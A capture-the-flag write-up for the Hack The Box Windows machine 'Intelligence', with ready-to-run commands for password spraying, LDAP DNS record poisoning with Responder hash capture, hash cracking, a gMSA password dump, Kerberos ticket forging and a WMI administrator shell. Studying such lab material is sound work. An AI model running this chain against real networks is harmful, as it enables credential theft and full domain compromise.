 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Key Exploits:**  
  - PDF metadata & URL fuzzing → default creds  
  - Password spraying  
  - LDAP DNS record injection → Responder NTLM capture  
  - gMSA password dump (ReadGMSAPassword)  
  - Kerberos S4U2Self/S4U2Proxy (silver ticket)  
  - WMI exec  

---

## TL;DR 🚀
1. **Recon:** nmap → DC + DNS + HTTP + LDAP + SMB  
2. **PDF Hunt:** brute‑force `/documents/YYYY‑MM‑DD-upload.pdf` → find default password **NewIntelligenceCorpUser9876** in PDF text  
3. **User Enumeration:** extract `/Creator` metadata → list ~30 usernames → validate with kerbrute  
4. **Password Spray:** `crackmapexec smb` → **Tiffany.Molina:NewIntelligenceCorpUser9876** → SMB as Tiffany → grab `user.txt`  
5. **Find Script:** SMB share `IT\downdetector.ps1` polls **web*** DNS records every 5 min, using default creds  
6. **Poison DNS:** use `dnstool.py` (LDAP) to add `web-0xdf`→your IP → wait for HTTP callback → capture NTLMv2 with Responder  
7. **Crack Hash:** NTLMv2 of `Ted.Graves` → **Mr.Teddy** → SMB as Ted  
8. **BloodHound:** Ted.Graves ∈ ITSupport → has **ReadGMSAPassword** on `svc_int$` & `svc_int` has **AllowedToDelegate**→DC  
9. **gMSADumper:** dump `svc_int$` NTLM hash via LDAP  
10. **Silver Ticket:** `getST.py` S4U2Self+Proxy for SPN `www/dc.intelligence.htb` impersonating Administrator → `administrator.ccache`  
11. **Shell:**  
    ```bash
    KRB5CCNAME=administrator.ccache \
      wmiexec.py -k -no-pass administrator@dc.intelligence.htb
    ```  
12. **Root.txt** acquired from `C:\Users\Administrator\Desktop\root.txt`

---

## Important Commands 🛠️

```bash
# 1. Enumerate PDFs, extract Creator & default password
#    (See Python script in writeup)

# 2. Validate users & spray default password
kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users.txt
crackmapexec smb 10.10.10.248 \
  -u users.txt -p NewIntelligenceCorpUser9876 \
  --continue-on-success

# 3. SMB as Tiffany.Molina
smbclient -U Tiffany.Molina //10.10.10.248/Users

# 4. Fetch downdetector.ps1
smbclient -U Tiffany.Molina //10.10.10.248/IT
get downdetector.ps1

# 5. Poison DNS via LDAP
dnstool.py -u intelligence\\Tiffany.Molina \
  -p NewIntelligenceCorpUser9876 \
  --action add --record web-0xdf \
  --data 10.10.14.19 --type A intelligence.htb

# 6. Capture NTLMv2 with Responder
sudo responder -I tun0

# 7. Crack Ted.Graves’s hash
hashcat -m 5600 ted.graves.hash /usr/share/wordlists/rockyou.txt

# 8. Dump GMSA password as Ted.Graves
gMSADumper.py -u Ted.Graves -p Mr.Teddy \
  -l intelligence.htb -d intelligence.htb

# 9. Forge silver ticket (S4U2Self + Proxy)
getST.py -dc-ip 10.10.10.248 \
  -spn www/dc.intelligence.htb \
  -hashes :<svc_int$hash> \
  -impersonate administrator \
  intelligence.htb/svc_int

# 10. WMI exec as administrator
KRB5CCNAME=administrator.ccache \
  wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```

---

## Key Takeaways 🔑
- **Hidden PDF end‑points** can leak default creds via Exif & text extraction.  
- **LDAP DNS injection** (AD‐Integrated records) + Responder → NTLMv2 capture.  
- **gMSA** (ReadGMSAPassword) + **Constrained Delegation** → silver ticket forging.  
- **Impacket tools** (`getST.py`, `wmiexec.py`) streamline Kerberos abuse.  

---

## References 📚
- **dnstool.py** (LDAP DNS editor)  
- **Responder** – LLMNR/mDNS/NetBIOS poisoner  
- **gMSADumper** – dump group‐managed service account creds  
- **Impacket** – getST.py & wmiexec.py for Kerberos & WMI  
- **BloodHound** – graph AD ACLs & delegation paths  
